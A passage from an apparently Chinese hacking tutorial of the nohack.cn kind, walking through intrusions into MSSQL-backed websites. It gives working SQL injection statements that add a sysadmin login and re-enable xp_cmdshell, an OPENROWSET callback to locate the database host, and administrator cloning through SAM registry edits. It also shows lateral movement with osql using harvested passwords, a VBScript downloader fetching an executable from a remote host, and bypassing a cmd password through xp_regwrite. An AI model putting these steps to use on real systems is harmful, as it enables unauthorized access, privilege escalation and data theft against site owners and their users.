exec master..sp_addsrvrolemember 'nohack','sysadmin'    /* 把账号 nohack 加入 SQL 系统管理员组 */
```

当返回如图 2 的页面时，说明建立账号成功，接下来只要找到数据库服务器的 IP 地址就能尝试连接了。

在 MSSQL 数据库里确定数据库服务器 IP 地址有一个很简便的方法，在本地用 nc 监听 1433 端口，然后执行命令：

```sql
insert into openrowset('sqloledb','server=你的IP地址,1433;uid=sa;pwd=11111','select id from test.dbo.temp1') select name from master.dbo.sysdatabases--
```


有的读者可能知道，这是在《资深黑客渗透内幕答疑》（非安全出品哦！）一书中介绍过的反弹 SQL 注入的语句，不过这里远程数据库用户名 uid 和密码 pwd 参数可以任意填写，因为我们的目的不是真正地让远程服务器来连接进入我们本地 SQL 服务器，而只是看看有没有数据通信连上来，从而通过查看连接上来的 IP 地址判断 SQL 服务器地址。

不一会儿就在 nc 中看到了有一个主机对我们进行了连接，这个就是远程 MSSQL 数据库地址，如图 3。

以这个 IP 和刚才在注入点中建立的账号密码对其进行连接，成功连接上了，如图 4。

有些情况下 MSSQL 的端口是被修改了的，不是默认的 1433，这就需要先扫一下目标 IP 开了哪些端口，从中分析出被改掉的端口号。如果安装了防火墙，这时就连接不上，那只能就此结束。


图 4

现在我们在查询分析器窗口执行以下命令尝试恢复 xp_cmdshell：

```sql
use master
exec sp_addextendedproc
xp_cmdshell,'xplog70.dll'
```

这一步我们在注入时已经做过，是不成功的。现在在查询分析器里再恢复一次，只是为了通过回显得到出错的原因并具体分析。结果提示是没能找到 sp_addextendedproc，如图 5。


图 5

原来是管理员把 sp_addextendedproc 这个存储过程删除了。不要紧，这个存储过程我们能自己再重建一个，有道是“我是 SA 用户，谁也挡不住”。

重建 sp_addextendedproc 的语句如下，执行后如图 6，建立成功：

```sql
SET QUOTED_IDENTIFIER ON
GO
SET ANSI_NULLS OFF
GO
create procedure sp_addextendedproc --- 1996/08/30 20:13
@functname nvarchar(517), /* (owner.)name of function to call */
@dllname varchar(255) /* name of DLL containing function */
as
/*
** If we're in a transaction, disallow the addition of the
** extended stored procedure.
*/
```


图 6

```sql
set implicit_transactions off
if @@trancount > 0
begin
    raiserror(15002,-1,-1,'sp_addextendedproc')
    return (1)
end
-- Disallow 0-length string & NULL
if @dllname is null or datalength(@dllname) = 0
begin
    raiserror(15311,-1,-1,@dllname)
    return (1)
end
/*
** Create the extended procedure mapping.
*/
dbcc addextendedproc(@functname, @dllname)
return (0) -- sp_addextendedproc
GO
SET QUOTED_IDENTIFIER OFF
GO
SET ANSI_NULLS ON
GO
```

```sql
SET QUOTED_IDENTIFIER ON
GO
SET ANSI_NULLS OFF
GO
create procedure sp_addextendedproc --- 1996/08/30 20:13
@functname nvarchar(517),          /* (owner.)name of proc */
@dllname varchar(255)              /* name of DLL containing function */
as
/*
** If we're in a transaction, disallow the addition of an
** extended stored procedure.
*/
set implicit_transactions off
if @@trancount > 0
begin
    raiserror(15002,-1,-1,'sp_addextendedproc')
    return (1)
end
-- Disallow 0-length string & NULL
```

大家不要觉得恢复存储过程很麻烦，要输入很多内容，其实在你本地数据库的左侧选择你想要在远程服务器上恢复的存储过程，然后按鼠标右键，弹出菜单如图7。

把创建的 SQL 后缀文件选择用文件方式打开，如图8，就会看到我们要创建的这个存储过程的源代码了。

现在我们再来恢复一次 XP_cmdshell，执行命令后提示成功，如图9。

用 cmdshell 执行一下命令看看，很快返回了结果，如图10。现在有了 XP_cmdshell，一切都变得很容易了。

## 十三、无 net.exe 和 net1.exe 添加管理员账号

在前面各章节介绍的案例中，我们曾不止一次地用 net 执行命令，比如查看用户、建立管理员账号等。很多朋友以为 net 只是一个命令，其实不然，它是一个名为 net.exe 的工具，因为在 CMD 中执行应用程序可以不写 EXE 后缀，所以直接用“net XXX”来执行命令。这个工具位于 c:\windows\system32 目录下，如图1。

这个工具的功能是非常强大的，比如查看服务器下有哪些用户，命令为：“net user”，执行结果如图2。

查看某个组里有哪些用户，命令格式为：“net user 组名”，例如查看管理员组中有哪些用户，使用命令：“net localgroup administrators”，执行结果如图3。

其他的命令就不一一例举了，大家可以通过“net /?”查看所有的命令，然后用“net 命令 /?”查看命令相对应的语法，如图4。

## 重装上阵

正因为这个工具有如此强大的命令，所以每个案例中我们基本上只要确认能用 net.exe 建立用户就行了。有了管理员用户，万事好办，特别是在开了3389的服务器里，建账号成功，直接连接即可。

但是大家有没有想过，它如此重要，那么服务器的管理员也会重视对它的安全防御，如果 net.exe 无法使用了该怎么办呢？如果 net.exe 被删除，输入这个命令时会出现如图5的提示。

首先有个办法，我们可以找找 net.exe 的“兄弟”net1.exe，它们俩一般是形影不离，都在同一目录下。用它来执行命令和 net.exe 是一样的，我们执行命令：“net1 user”，结果如图6。

如果这个“兄弟”也被删除了，那就比较麻烦了，需要重新想办法。首先确立一点，如果有必须使用 net.exe 不可的地方，我们是要有管理员权限的，因为 net 系列命令最有诱惑力的地方是能建立一个账号并加入管理员组，这个是要管理员才能执行的操作，除此之外其他的命令意义不是很大。此外目标的服务器应该开着3389，同时又有比较严密的防御措施。于是，在唯有3389能与外界联系的情况下，建立一个管理员账号登录就是目前的唯一途径。

在没有 net 命令的情况下要建立一个管理员，是不太可能的，因为至少从现有的资料来看，只有 net 能在 Windows 系统中建立管理员账号。但是作为一个网络安全的研究人员，想问题一定不能这么直，虽然没有 net 不能建账号，但是我们可以通过某种手法达到和建账号一样的效果，只要弄出个管理员让我们登录就行了。

这个思路的核心来源于很久以前的管理员克隆，如果大家还记得具体操作步骤的话，应该记得在整个克隆的过程中，并没有在服务器上使用“net user”建立过任何账号，只是通过替换注册表 SAM 值中的信息达到目的。

例如我们得到了一个 Windows 下运行的 php 的 webshell，又通过我们之前学过的 udf 提升权限的方法，将这个账号提升为了管理员权限，下一步自然是想得到3389的图形化操作界面啦。

本来这是件容易的事，只要使用“net user nohack hack123456”建一个管理员账号 nohack，密码 hack123456，再加入管理员组就可以通过3389连接它了。但是很可惜，因为 net 工具被删除，只能通过别的途径。

首先要做的就是本地新建一个用户叫 nohack，所使用的系统最好与远程服务器上的一样。注意这个账号不需要加入管理员组，以后我们可以在后面进行。在本地添加一个用户名为 nohack 的用户，如图7，添加成功。

然后导出如下注册表内容保存为 nohack.reg。

```text
HKEY_LOCAL_MACHINE\SAM\SAMDomains\Account\Users\Names\nohack
```

www.nohack.cn

## 重装上阵

这里注意一点，在 Windows 2003 中可能注册表 SAM 下面没有内容，如图8，这是因为访问权限没有打开，我们在 SAM 项上按鼠标右键，选择“权限”，给予 administrator 所有权限，如图9，然后按 F5 刷新一次注册表就能看到相关的注册表项了。

再导出注册表内容：HKEY_LOCAL_MACHINE\SAM\SAMDomains\Account\Users\ 下与 hackest 相对应的键值。

这句话的意思是两个位置导出的键所在位置要是对应的。例如图10中之前导出的 nohack 在 names 下是第六个键位，那在这一步从 users 下导的也要是第六个值，这里是 000003F2，就导出：HKEY_LOCAL_MACHINE\SAM\SAMDomains\Account\Users\Names\000003F6，保存为 000003F2.reg。

然后再写一个批处理文件，名为 add.bat，文件内容如下：

```bat
regedit /s nohack.reg
regedit /s 000003F2.reg
del nohack.reg
del 000003F2.reg
del add.bat
```

把这三个文件：nohack.reg、000003F2、add.bat 传到目标服务器上，都放到一个目录下，pspassword.exe 和 mt.exe 也放到同一目录，在肉鸡中执行 dir 命令，看到五个文件都上传成功了，如图11。

这中间需要重点介绍的是 MT.exe，它是一个多功能黑客工具，主要功能有几十项之多，使用格式为：mt.exe <Option>。这里我们只用到它的 -clone 和 -chkuser 参数，前者是用来克隆账号，后者是检测克隆是否成功。

在 webshell 中运行那个 add.bat，然后执行命令：“mt -chkuser”，能看到克隆成功账号后的返回信息，如图12。

这个命令比 net 强大，它能看到隐藏的管理员账号。在服务器上，我们会发现已经成功添加了一个用户名为 nohack 的用户，但是它并不属于任何成员组。现在我们继续把它克隆成管理员。

假设管理员用户为 administrator，使用命令：“mt -clone administrator nohack”，如图13，返回成功。

克隆成功后登录3389是不会成功的，因为密码还没有改！正常在 Windows 中改密码的语句是：“net user username newpassword”，不过在这里我们的 net.exe 是无法使用的，需要使用刚才上传的 pspasswd.exe 来解决密码问题。

命令格式为：“pspasswd.exe username newpassword”，在此例中命令则为：“pspasswd.exe nohack hack123456”。现在再试试用账号 nohack，密码 hack123456 登录3389，成功啦！如图14。

聪明的读者应该想到，我们完全可以通过上传 net.exe 或 net1.exe 后再执行添加用户的操作来达到目的，但是网络安全的主旨就是灵活的思维，这个案例为我们提供了很好的思路。多掌握一条途径，一种思路，总有一天你会用得上。

## 十四、命令行连接内网渗透

现在规模比较大的网站在架设时都是采用一台 WEB 服务器配合一台 SQL 数据库服务器的架构，SQL 服务器无法被 Internet 访问，Internet 上只能访问到 WEB 服务器，各网站的 WEB 服务器和 SQL 服务器能互访，结构如图1。

这种架构的好处是不言而喻的，不用太高的网络安全防护技巧，通过将信息分别放到两台服务器上就能化解损失进一步扩大的可能，充分体现了“不要把所有鸡蛋放在同一个篮子里”这一最古老、最简单的化解风险原则。

网站管理员想的是，如果本站 WEB 程序方面有问题，起码我的服务器中的数据库还在；如果 SQL 服务器出现问题，起码网站 WEB 服务器还能保全。当然了，这只是管理员良好的愿望。

不过客观来说，把 SQL 和 WEB 分置于两台服务器，对于想获得整个网站权限这一点来说的确制造了不少麻烦，可以防堵的方案更多，两台服务器之间就好像被隔绝了一样，无法到达另一边，也正因为如此，能让一些涉世未深的菜鸟止步。

但是实际上这种配置的安全做得还不彻底，如果 WEB 服务器被获得了 SQL 连接口令，配合一些工具和以前学过的 SQL 语句知识，还是能轻易地从“一边”走到“另一边”的。

这节的内容是通过命令行的 SQL 工具进行渗透，如果仅放在本例中看这种技巧，似乎是没有必要的，因为当 WEB 服务器上有一个 webshell 后，有一定网络安全知识基础的读者都会知道用 webshell 上的数据库操作功能连接远程数据库进行操作，看似不用这节讲到的知识就能很简单地达到目的。

但是对于技术的运用，我们的思路不能这么窄。就事论事在学习黑客技术中是行不通的，从此处学习，运用至彼处才是要点。在渗透大型的网络时，很多时候我们只因为跨站、社工或其他某种手段，可以得到网络中一台并无 webshell 权限的电脑，比如职业的工作机或公共资源共享服务器，然后通过社工或暴露的记录文件进行嗅探得到了远程数据库服务器的账号，但却没有3389的图形界面让你连接，难道上传几百M的 MSSQL 上去，然后通过查询分析器连接吗？

```text
命令提示符
Microsoft Windows [版本 5.2.3790]
(C) 版权所有 1985-2003 Microsoft Corp.

C:\Documents and Settings\Administrator>ipconfig -all

Windows IP Configuration

Host Name . . . . . . . . . . . . : ppp-023ca92eadc
Primary Dns Suffix . . . . . . . :
Node Type . . . . . . . . . . . . : Unknown
IP Routing Enabled. . . . . . . . : No
WINS Proxy Enabled. . . . . . . . : No
DNS Suffix Search List. . . . . . : domain

Ethernet adapter 本地连接:

Connection-specific DNS Suffix . : domain
Description . . . . . . . . . . . : AMD PCNET Family PCI Ethernet Adapter
Physical Address. . . . . . . . . : 00-0C-29-CE-8E-4C
DHCP Enabled. . . . . . . . . . . : Yes
Autoconfiguration Enabled . . . . : Yes
IP Address. . . . . . . . . . . . : 192.168.1.101
Subnet Mask . . . . . . . . . . . : 255.255.255.0
```

这显然是不现实的，这时采用我们这里介绍的方法就能很轻便地达到效果，命令行的工具在同等功能下几乎是肯定比图形界面的好用，因为能以更恶劣的条件进行操作。

```text
C:\Documents and Settings\Administrator\桌面>dir
驱动器 C 中的卷没有标签。
卷的序列号是 7873-63A3

C:\Documents and Settings\Administrator\桌面 的目录

2009-03-21 05:55 <DIR> .
2009-03-21 05:55 <DIR> ..
2009-03-21 05:55 44 dl.txt
2009-03-20 02:42 125 ipc.bat
               2 个文件 169 字节
               2 个目录 2,137,554,944 可用字节
```

比如现在我已经得到了一台内网中电脑 A 的 cmdshell，用“ipconfig -all”命令查看一下本机所处的网络位置，IP 地址为 192.168.1.101，如图2。

```text
C:\Documents and Settings\Administrator\桌面>type dl.txt
101 jzz jzz10101 3389
44 jzz jzz0144 1433
C:\Documents and Settings\Administrator\桌面>
```

IP 地址在内网中是相当重要的一个社工突破点，因为很多管理员为了方便记忆，喜欢把 IP 以某种形式与其他的主机 IP 或密码相对应。通过对该机地毯式的搜索，发现了一个有点用的记录，在该机的桌面目录下有一个名为 dl.txt 的文件，如图3。

用“type”命令查看该文档，发现了一些有趣的东西，如果猜得不错，这应该是一组内网中其他服务器的账号，如图4。

www.nohack.cn

| 标识 | 账号 | 密码 | 端口 |
|---|---|---|---|
| 101 | jzz | jzz01101 | 3389 |
| 44 | jzz | jzz0144 | 1433 |

经过查看，是本机的账号和密码，很多管理员都会犯这个错误，为了自己方便记忆，把账号记录在文本中。

推断一下，44 应该是指本机的 IP 地址，jzz jzz0144 是密码，其中密码 jzz 中的 01 可能是类似分组的标识，101 是本机 IP，它的密码构成是“账号+组别号+IP 地址”。以此分析，其中 101 jzz tit0544 1433 这组账号对应的应该是 192.168.1.101 的 1433 端口，即 MSSQL 数据库服务器，而 jzz tit0544 有可能是 SQL 服务器的连接账号。

先试着 telnet 一下 192.168.1.101 的 1433 端口，能连上，说明这端口是开着的，进一步证明了我们的推断。现在我们迫切地需要连接这个 SQL 数据库，使得我们在内网中有所突破。

要连接 SQL 数据库，一般用的是图形版的 SQL 查询分析器，但我们目前只有命令行的 shell，现在就得请出我们的主角，命令行下的 SQL 连接器 OSQL 了。

该工具的参数主要有：

- `-E`  
  使用信任连接而不请求密码。
- `-S server_name[\instance_name]`  
  指定要连接到的 SQL Server 实例；指定 server_name 将连接到该服务器上的 SQL Server 默认实例；指定 server_name\instance_name 将连接到该服务器中 SQL Server 的命名实例；如果未指定服务器，osql 将连接到本地计算机上的 SQL Server 默认实例；从网络上的远程计算机执行 osql 时，此选项是必需的。
- `-H wksta_name`  
  工作站名称。工作站名称存储在 sysprocesses.hostname 中，并按 sp_who 显示。如果不指定此选项，则采用当前计算机名称。
- `-d db_name`  
  启动 osql 时发出一个 `USE db_name` 语句。
- `-l time_out`  
  指定 osql 登录超时之前的秒数，登录到 osql 的默认超时时间为 8 秒。
- `-t time_out`  
  指定命令超时之前的秒数，如果未指定 time_out 值，则命令将不会超时。
- `-h headers`  
  指定要在列标题之间打印的行数。默认为每一组查询结果打印一次标题。使用 -1 可指定不打印标题。如果使用 -1，则在参数和设置之间一定不能有空格（可以是 `-h-1`，不能是 `-h -1`）。
- `-s col_separator`  
  指定列分隔符字符，默认值为空格。若要使用对操作系统有特殊含义的字符（例如“|、;、&、<、>”），请将该字符用双引号（"）括起来。

- `-w column_width`  
允许用户设置屏幕输出的宽度，默认为 80 个字符。当输出行达到其最大屏幕宽度时，会拆分为多行。

- `-a packet_size`  
允许您请求不同大小的数据包。`packet_size` 的有效值在 512 到 65535 之间，`osql` 的默认值为服务器的默认值。执行较大的脚本时，各个 `GO` 命令之间的 SQL 语句数量是庞大的，因此增大数据包可以提高性能。Microsoft 的测试表明，大容量复制操作的最快设置通常为 8192。可以请求更大的数据包，但如果请求不能得到批准，则 `osql` 会将此值设为服务器的默认值。

- `-e`  
回显输入。

- `-I`  
将 `QUOTED_IDENTIFIER` 连接选项设置为开启。

- `-D data_source_name`  
连接到某个通过用于 SQL Server 的 ODBC 驱动程序定义的 ODBC 数据源。`osql` 连接使用该数据源中指定的选项。  
注意：此选项不适用于为其他驱动程序定义的数据源。

- `-c cmd_end`  
指定命令终止符。默认情况下可以在行中输入一个单独的 `GO` 来终止命令，并将该命令发送到 SQL Server。如果要重置命令终止符，请勿使用对操作系统有特殊含义的 Transact-SQL 保留字或字符，无论其前面是否有反斜杠。

- `-q "query"`  
启动 `osql` 时执行查询，但在查询完成时不退出 `osql`（注意查询语句不应包含 `GO`）。如果从批处理文件中发出查询，请使用 `%variables%` 或环境 `%variables%`。  
例如：`osql -E -q "select name, object_id from %table%"`，将查询用双引号括起来，将查询中嵌入的任何内容用单引号括起来。

- `-Q "query"`  
执行查询并立即退出 `osql`。将查询用双引号括起来，将查询中嵌入的任何内容用单引号括起来。

- `-n`  
从输入行中删除编号和提示符号 (`>`)。

- `-m error_level`  
自定义错误消息的显示。显示指定的或更高严重级别的错误的消息数、状态和错误级别，不显示低于指定级别的错误信息。使用 `-1` 可以指定返回所有标题及其消息，即使是信息型消息。如果使用 `-1`，则在参数和设置之间不能有空格（可以是 `-m-1`，不能是 `-m -1`）。

- `-r {0 | 1}`  
将消息输出重定向到屏幕（`stderr`）。如果不指定参数，或指定参数为 `0`，则仅重定向级别为 11 或更高的错误信息。如果指定参数为 `1`，则将重定向所有消息输出（包括 `print`）。

- `-i input_file`  
标识包含一批 SQL 语句或存储过程的文件。小于号（`<`）比较运算符可以代替 `-i` 使用。

- `-o output_file`  
标识从 `osql` 接收输出的文件。大于号（`>`）比较运算符可以代替 `-o` 使用。  
如果 `input_file` 不是 Unicode 且未指定 `-u`，则以 OEM 格式存储 `output_file`。如果 `input_file` 是 Unicode 或者指定了 `-u`，则以 Unicode 格式存储 `output_file`。

以上就是该工具的参数及解释。现在我们将工具放到自己的空间里，然后用以下脚本下载：

```bat
echo Set x= CreateObject("Microsoft.XMLHTTP"):x.Open "GET",LCase(WScript.Arguments(0)),0:x.Send():Set s = CreateObject("ADODB.Stream"):s.Mode = 3:s.Type = 1:s.Open():s.Write(x.responseBody):s.SaveToFile LCase(WScript.Arguments(1)),2 >iget.vbs
```

把整段代码复制到 cmd 窗口中，回车后当前目录会生成一个 `iget.vbs` 脚本。这个脚本的使用方法如下，已经有许多资料图书介绍过了，就不多说了。

```bat
iget.vbs http://www.nohack.com/11.gif sqlexec.exe
```

下载成功后运行命令：`OSQL -S 192.168.1.44 -U jzz -P jzz0144 -Q "SQL语句"`，如图 5。

- `-S` 参数是 IP 地址，`-U` 是用户名，`-P` 是密码。注意这个工具的参数是大小写敏感的，这三个参数必须用大写输入。后面 `-Q` 引号里的是要执行的 SQL 语句。注意这个工具有点特殊，每条命令都必须按句式写好服务器、账号和密码。


先来看看我们是不是管理员，提交：

```sql
OSQL -S 192.168.1.44 -U jzz -P jzz0144 -Q "select IS_SRVROLEMEMBER('sysadmin')"
```

如果执行成功会看到数据库受到影响，如图 6。可以看到返回值为 1，这表明当前权限是 SA。好了，直奔主题，建个管理员账号看看是否能用 CMD，是否在系统中有 SYSTEM 权限。命令如下：

```sql
osql -S 127.0.0.1 -U jzz -P jzz0144 -Q "exec master.dbo.xp_cmdshell 'c:\windows\system32\cmd.exe /c net user nohack hack123456 /add'"
```

www.nohack.cn

```bat
C:\Documents and Settings\Administrator\桌面>osql -S 127.0.0.1 -U sa -P sa -Q "exec master.dbo.xp_cmdshell 'c:\windows\system32\cmd.exe /c net user nohack hack123456 /add'"
output
命令成功完成。
```

执行命令成功，如图 7，手中又拥有了一台 SYSTEM 权限的主机，渗透内网的过程中又攻下了一座堡垒。如果不是有命令行的 SQL 工具，恐怕事情就没有这么容易，您说呢？

图 7

## 十五、CMD 保护的突破

CMD 是 Windows 系统下一个非常强大的命令执行器，如果你有权限使用它，除了能执行强大的 `net` 系统命令及各种网络命令之外，它的一些隐秘用法几乎能让你做到所有你在图形界面下能做的任何操作。许多 hack 技术的扩展应用也离不开它，比如利用 SA 权限的 SQL 注入点调用执行命令、备份启动项建立管理员账号等，也需要这个强大工具的帮助，特别是在溢出返回 cmdshell 中，也是调用了 cmd。

因此，在计算机安全防护中，这是一个重点部分，但是难度在于这个工具与其他那些“纯”hack 工具不同，所以对它的防护存在着矛盾冲突。

对于那些可有可无的东西，做安全防护时可以一删了之。例如以前介绍 SQL 注入的 SA 权限下 `xp_cmdshell` 执行系统命令用到的 `xplog70.dll`，将其删除能让 `xp_cmdshell` 无法加载。管理员通常是没有必要通过这个存储过程来执行系统命令的，直接在系统中执行即可。还有 mssql 下的那些存储过程也可以删除，但是 cmd 一般却不能删除，因为实在有太多方面要用到它。例如要想了解一下当前网络是否通畅，就要用 cmd 执行 ping 命令看返回的时间，如图 1。

```bat
Microsoft Windows [版本 6.0.6001]
版权所有 (C) 2006 Microsoft Corporation。保留所有权利。

C:\Users\pc>ping 192.168.1.1

正在 Ping 192.168.1.1 具有 32 字节的数据:
来自 192.168.1.1 的回复: 字节=32 时间=1ms TTL=64
来自 192.168.1.1 的回复: 字节=32 时间<1ms TTL=64
来自 192.168.1.1 的回复: 字节=32 时间<1ms TTL=64
来自 192.168.1.1 的回复: 字节=32 时间<1ms TTL=64

192.168.1.1 的 Ping 统计信息:
    数据包: 已发送 = 4，已接收 = 4，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 1ms，平均 = 0ms

C:\Users\pc>
```

图 1

还有很多经常要使用的操作都依赖于这个工具，所以删除掉是不行的，管理员通常不会采取这个办法。如果重命名，也不过是掩耳盗铃的办法，hack 可以通过读取 `c:\windows\system32` 目录下的文件来查看文件大小，对比出哪个是改名后的 `cmd.exe`。例如 Windows 2003 中的 `cmd.exe` 大小为 460 KB，通过：

| 名称 | 修改日期 | 类型 | 大小 |
| :--- | :--- | :--- | :--- |
| graftabl.com | 2007/4/10 5:05 | MS-DOS 应用程序 | 30 KB |
| graphics.com | 2007/4/10 5:05 | MS-DOS 应用程序 | 20 KB |
| graphics.pro | 2007/4/10 5:05 | PRO 文件 | 21 KB |
| grpconv.exe | 2007/4/10 5:05 | 应用程序 | 39 KB |
| h323.tsp | 2007/4/10 5:05 | TSP 文件 | 258 KB |
| h323log.txt | 2008/11/6 13:12 | 文本文档 | 0 KB |
| h323msp.dll | 2007/4/10 5:05 | 应用程序扩展 | 607 KB |
| hack.exe | 2007/4/10 5:05 | 应用程序 | 460 KB |
| hal.dll | 2007/4/10 5:05 | 应用程序扩展 | 117 KB |
| hbaapi.dll | 2007/4/10 5:05 | 应用程序扩展 | 38 KB |
| hccoin.dll | 2007/4/10 5:05 | 应用程序扩展 | 7 KB |
| hdwwiz.cpl | 2007/4/10 5:05 | 控制面板项 | 141 KB |
| help.exe | 2007/4/10 5:05 | 应用程序 | 26 KB |
| hhctrl.ocx | 2007/4/10 5:05 | ActiveX Control | 534 KB |
| hhsetup.dll | 2007/4/10 5:05 | 应用程序扩展 | 41 KB |
| hid.dll | 2007/4/10 5:05 | 应用程序扩展 | 19 KB |
| hidphone.tsp | 2007/4/10 5:05 | TSP 文件 | 29 KB |
| himem.sys | 2007/4/10 5:05 | 系统文件 | 5 KB |
| hlink.dll | 2007/4/10 5:05 | 应用程序扩展 | 71 KB |
| hnetcfg.dll | 2007/4/10 5:05 | 应用程序扩展 | 337 KB |

图 2

研究文件大小很容易找到 `hack.exe` 就是改名之后的 `cmd.exe`，如图 2。

既然删除也不行，乱改名又基本没效果，于是就有了个折中的办法：给 cmd 加上密码。知道密码的人可以任意使用 cmd，没有密码的人就没有权限使用。这的确能产生一些效果，但是如果在对 cmd 进行加密处理的思路上存在一些问题，这种加密保护是能被黑客轻易突破的。

例如一个 MSSQL 的注入点，SA 权限能顺利调用 cmd，但是返回的结果中却出现如图 3 的提示。

这种情况还比较少见，看来是对 cmd 作了加密处理，在网上搜一下有没有相关信息（一定要学会利用 Google），搜索结果发现真有这种技术，如图 4。

经过研究，发现主要是通过以下批处理脚本进行加密：

```bat
@echo off
cls
color 70
echo 啊神的专用CMD....
setlocal
set pass=0
set times=2

echo 为安全起见，您的CMD已加密！

:start
set /p pass= 想进入此程序请输入CMD密码：
if "%pass%" equ "123456" goto ok
echo 密码错误，请重新输入！
echo 你还有%times%次机会

if %times%==0 goto err
echo 状态：用户输入密码 验证失败
set /A times=%times%-1
goto start

:err
echo 注 意 密 码 错 误！！
echo 未经授权... 擅自闯入...... 非法入侵......
pause
exit
:ok
echo 欢迎光临，偶是啊神！！！
title cmd.exe
endlocal
```


将以上代码保存为 `cmd.bat` 文件，然后修改注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor` 下 `AutoRun` 这个键值为批处理文件所在路径就可以了。

这是从网上找到的关于这个 cmd 加密的资料，使用了批处理方式，功能就是验证密码，输入正确才允许调用 cmd。代码中的密码是 123456，允许输入三次密码，如果三次都不对则退出。

这个 cmd 加密不是太难，有个思路可以解决它：还原注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor` 处 `AutoRun` 的值为空就行了。当我们有 SA 权限时是很容易做到的。

这里要用到一个 mssql 中的扩展存储过程 `xp_regwrite`，它在 SQL 注入中用得比较少，不过比较早接触网络安全技术的朋友应该还是比较熟悉它的，它的作用是写入注册值。

在注入点执行：

```sql
exec master.dbo.xp_regwrite
'HKEY_LOCAL_MACHINE',
'SOFTWARE\Microsoft\Command Processor',
'AutoRun','REG_SZ','';--
```


这样，注册表处原来加载的这个批处理的值被改成空，再次从注点执行 cmd 命令成功。

进一步我们不妨查看一下这个批处理中管理员所设的密码，可能会给我们后续的一些操作提供线索。先用注册表读取扩展过程看一下注册表中这个批处理文件所在的位置，语句为：

```sql
exec xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\CurrentVersion','CommonFilesDir'
```

得到那个批处理的位置在 `E:\cmd.bat`，然后在 HDSI 工具中执行：`type E:\cmd.bat`，得到密码是 `xj584520`，如图 5，好好分析利用吧。

从这个例子里我们应当学会，在网络渗透中如果遇到一些非典型障碍时，要摸清原因，对症下药。

## 十六、CONTAINS 解决注入疑难问题


有不少朋友问我，学习网络安全技术难不难？其实入手是不难的，一些基本的入门知识和相关工具准备好后就可以开始尝试。不过网络安全知识是“易学难精”的知识，在学习了很多知识之后，如果运气好能遇到教科书似的标准步骤，自然容易成功。但是“魔高一尺，道高一丈”，事情不会总是这样顺顺利利，有时一点小问题就会挡住我们。如果学得不深、经验不丰富，就可能让你无法达到想要的结果。

所以，仅靠典型例子是不行的。达到同一个目的的不同方法，你换着试试，或许有一种方法会成功。鲁迅小说《咸亨酒店》里描写孔乙己得意地炫耀“回”字的七种写法，被看作是学些无用八股的知识；在网络安全知识学习中，某种意义上要学习这种知识，“回”字的某一种写法就可能是获得成功的途径。

在渗透某网站时，笔者就曾遇到个难题挡住了去路。我们需要从中得到“北京”地区的数据，通过努力，从数据库中得到了存放关键信息的表，如图 1。

从中可以看到数据库中相关信息条数有三万多，而我们想要的只是北京地区的数据，所以必须从中筛选出来。保存地址信息的字段名为 `addr_user`，保存方式是“xx省xx市xx路xx号”这种标准地址格式。

从中查询出北京地区的数据并不难，只要在工具的条件查询输入框中用命令：`addr_user like '%北京%'`。不过遗憾的是事情可没这么顺利，查询时出现错误了，如图 2。

现在无法列出数据。经过查找原因后发现是在代码里过滤了 `%` 号。这是个不大不小的问题，`%` 符号是查询时的通配符，如果没有 `%` 号，查询“北京”只能查到“北京”这种标准条件字符，而不能筛选“北京市xx路xx号”的地址类型。现在我们得用一个不使用 `%` 号的模糊查询才可能成功查询出我们要的数据。


不使用 `%` 号而进行条件查询的语句是有的，那就是使用 `contains` 进行条件查询，语法是：`Contains(addr_user,'"北京"')`。意思是查询 `addr_user` 字段中包含关键字“北京”的结果，这两个双引号中输入的字符是不用 `%` 号作为通配符的。在本地查询分析器里测试一下是成功的，如图 3，用不含 `%` 号的模糊查询条件查出了 `name` 字段中包含 `zhang` 的信息。


最后我们把 `contains` 的条件查询放到工具中，成功回避了 `%` 又查到了数据，如图 4。类似这种使用别的语句而回避某些符号、成功突破过滤的方法在 mssql 中还有一些。这种另构造语句的突破比我们以前介绍过的转义字符突破更高级，这才是真正的突破。

最后请一定注意本文中介绍的 `contains` 查询条件：需要管理员对数据库设置全文索引。全文索引是能大大提高查询效率的一种 SQL 功能。本例中由于数据量大又经常被查询，为了提高效率，管理员设置了全文索引，使得我们能成功使用 `contains`。

## 十七、用注点读 MDB 文件（或 XLS 等）进行突破

SQL 注入的各种利用方法可谓层出不穷、日新月异。这个漏洞虽然已经出现近十年了，但是仍无法封堵，因为它不是像 Windows 系统漏洞那样，把 BUG 的地方修改掉，一个漏洞也就算补上了。SQL 注入利用了其自身功能，那么只要不断有新的功能被发掘出来，SQL 注入也就发现了新“漏洞”。

例如当发现 SQL 为了调试方便能够返回错误提示，就有人想到用这个方法来暴出表和字段；当发现数据库为了能调用 Windows 下的程序来完成更强大的功能，提供了 `xp_cmdshell` 扩展存储过程时，调用 CMD 的 SA 权限入侵的种种思路就出来了；当发现数据库的日志居然能备份成 asp 后缀时，找目录备份 webshell 的方法就诞生了……那么，当发现 SQL 数据库能读取电脑上的 MDB、XLS 等数据库类型的文件时，是不是又会有一种新的 SQL 注入利用方法诞生呢？

笔者从某个交友网站得到一个 MSSQL 注入点，按常规的 SQL 注入套路读取密码但不能破解，备份 webshell 总是超时失败，不能直接得到 webshell。于是重新找机会，发现该网站下面带一个论坛，是 DVBBS 的 MDB 版，如图 1。


数据库名能从读取的目录中看到，是“d:\web\XXXXXX\bbs\database\jiasu315.mdb”。尝试从 Web 直接访问下载这个 MDB 文件，但是提示找不到文件，如图 2。

这是 Windows 2003 中没有设置对该后缀的解析造成的，实际上该文件是存在的。但是别忘记了，现在我们手上有一个注入点，可以用这个注入点来读取 mdb 文件或其它后缀文件中的数据。换言之，我们能用注入点读取到这个 BBS 上的 MDB 数据库中的管理员表内容。

用 MSSQL 读取文件需要用到两个函数，分别是 OPENROWSET 和 OPENDATASOURCE。先看看微软的 MSSQL 白皮书中是如何介绍这两个函数的：

```sql
OPENROWSET
( { 'provider_name' , { 'datasource' ; 'user_id' ; 'password'
  | 'provider_string' }
  , { [ catalog. ] [ schema. ] object
  | 'query'
  }
  | BULK 'data_file' ,
  { FORMATFILE = 'format_file_path' [ <bulk_options> ]
  | SINGLE_BLOB | SINGLE_CLOB | SINGLE_NCLOB }
  )

<bulk_options> ::= 
  [ , CODEPAGE = { 'ACP' | 'OEM' | 'RAW' | 'code_page' } ]
  [ , ERRORFILE = 'file_name' ]
